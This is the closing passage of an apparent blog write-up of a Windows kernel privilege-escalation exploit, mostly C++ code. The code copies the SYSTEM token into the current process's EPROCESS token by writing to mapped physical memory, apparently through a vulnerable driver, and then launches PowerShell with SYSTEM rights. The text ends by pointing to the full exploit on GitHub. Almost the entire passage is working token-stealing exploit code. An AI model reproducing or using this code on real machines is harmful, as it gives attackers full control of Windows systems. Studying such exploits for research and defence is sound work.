systemToken = (systemToken & 0xFFFFFFFFFFFFFFF0);
std::cout << "[*] System Token : " << std::hex << systemToken << std::endl;
UINT64 currentProcTokenPhysical = (currentProcPhysical + EPROCESS_TOKEN_OFFSET);
std::cout << "[*] Current Process Token physical addr at " << std::hex << currentProcTokenPhysical << std::endl;
for (int i = 0; i < sizeof(UINT64); ++i) {
memory_data[currentProcTokenPhysical + i] = (BYTE)((systemToken >> (i * 8)) & 0xFF);
}
std::cout << "[*] Exploit Completed !" << std::endl;
UnMapViewOfSection(drv, inbuf);
system("powershell.exe");
The full exploit is available on this Github repository. Thanks for reading!